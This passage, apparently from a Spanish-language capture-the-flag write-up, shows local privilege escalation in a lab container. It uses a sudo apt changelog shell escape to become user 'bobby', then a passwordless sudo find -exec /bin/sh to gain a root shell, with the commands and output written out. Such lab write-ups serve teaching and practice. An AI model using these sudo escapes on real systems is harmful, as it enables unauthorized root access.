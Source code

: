 Vemos **apt** con permisos SUDO:

   ```bash
sudo -u bobby apt changelog apt
!/bin/sh
```

YA ESTAMOS COMO BOBBY.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
bobby@bc070f92e382:/var/www/dev.hidden.lab/uploads$ sudo -l
Matching Defaults entries for bobby on bc070f92e382:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bobby may run the following commands on bc070f92e382:
    (root) NOPASSWD: /usr/bin/find

```

Vemos **find** con permisos SUDO:

   ```bash
bobby@bc070f92e382:/var/www/dev.hidden.lab/uploads$ 

    sudo find . -exec /bin/sh \; -quit

# whoami
root
# 
```

**YA ESTAMOS COMO ROOT.**
